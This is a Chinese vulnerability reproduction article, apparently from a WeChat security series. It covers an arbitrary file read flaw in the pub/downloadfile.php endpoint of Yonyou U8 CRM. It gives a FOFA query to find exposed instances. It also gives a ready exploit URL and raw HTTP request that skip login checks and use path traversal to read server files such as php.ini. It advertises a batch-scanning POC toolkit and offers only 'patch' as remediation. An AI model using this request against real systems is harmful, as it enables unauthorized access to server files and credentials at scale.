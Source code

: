 #  用友crm客户关系管理pub/downloadfile.php接口存在任意文件读取漏洞   
南风徐来  南风漏洞复现文库   2024-05-05 23:20  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友crm客户关系管理简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友U8客户关系管理全面解决方案是基于中国企业最佳营销管理实践，更符合中国企业营销管理特点，客户关系管理的整合营销平台。产品融合数年来积累的知识、方法和经验，目标是帮助企业有效获取商机、提升营销能力。  
## 2.漏洞描述  
  
用友U8客户关系管理全面解决方案是基于中国企业最佳营销管理实践，更符合中国企业营销管理特点，客户关系管理的整合营销平台。用友crm pub/downloadfile.php接口存在任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
用友U8 CRM  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nLPCED5vN7mULE3ibZmCCib2tC9abrAKAkibrPHrGfib6zbtYbSfMic2CjY6w/640?wx_fmt=jpeg&from=appmsg "null")  
  
用友crm客户关系管理pub/downloadfile.php接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
app="用友U8CRM"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/pub/downloadfile.php?DontCheckLogin=1&url=/datacache/../../../apache/php.ini  
  
漏洞数据包：  
```
GET /pub/downloadfile.php?DontCheckLogin=1&url=/datacache/../../../apache/php.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nL9S6OsDVQAnNrMPj7dGXGURzHnMlmdIyb1oGdmEvwMp03rMCqH0Mk7Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nLqwUfhon6VEWPJhDkqRwPZISBCm7dnlvXlP3icmicmsApiaMU2xZgQssibg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nL3cXHd9iaK0AjFlUnGdl5tLxgyicConjR5oFmDqOyaYyvlibQIsMZGdibVg/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nLM9fgh9iavunltCKAOxPdUHaefAaWkibkgwkzG4tOwcGzJxUurVJLXVTA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nL0abPicn8eCc9KQgEwT7U86sxKB07Q1gkic22YmjTURxBJ8BKZoY8GQmQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nLBY8nGxB98YwOzzoWDbbAljI3p4ay6YKDLgHibd4IgXeH7XKO0z92d7Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YicjgtsjRkxic8PODKtkk6nLnWpwUFnAuL9pHib4LRADwDMetDPGUHo5ps7tgVcoWSkj4pV3dpBGFCA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[用友政务财务系统FileDownload接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486371&idx=1&sn=8ea4470a40d2100d18aecb3a4abcff6c&chksm=974b86a4a03c0fb2dad3b970bae511a25e02796d939379b41cee9a8372a421337989e1d432ef&scene=21#wechat_redirect)  
  
  
[泛微e-office系统UserSelect接口存在未授权访问漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486348&idx=1&sn=d432918c3ca047ca2d86b05d23cbe883&chksm=974b868ba03c0f9d74f2553ceed392dff8d314056dccf798398e00dfd4fce3e068dfeb49ce4e&scene=21#wechat_redirect)  
  
  
  
  
